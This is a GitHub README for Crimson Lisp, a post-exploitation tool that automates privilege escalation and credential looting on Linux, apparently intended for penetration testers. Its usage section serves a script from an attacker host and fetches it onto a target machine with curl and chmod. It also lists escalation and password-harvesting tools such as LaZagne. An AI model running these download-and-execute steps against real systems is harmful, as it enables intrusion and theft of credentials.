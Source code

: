 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```bash
git clone https://github.com/Karmaz95/crimson_lisp.git
```
# Usage
```bash
cd crimson_lisp
sudo python3 -m http.server 80

# ON THE TARGET MACHINE - download and execute
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh
chmod +x lisp.sh



        # -e => PRIVILEGE ESCALATION
        # -l => LOOTING
        # -u => HOST WITH TOOLS - If only "-u" option is used then only the tools will be downloaded.
```
# HISTORY
> If you are curious about how it works, read my blog:
<MEDIUM PLACEHOLDER>

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>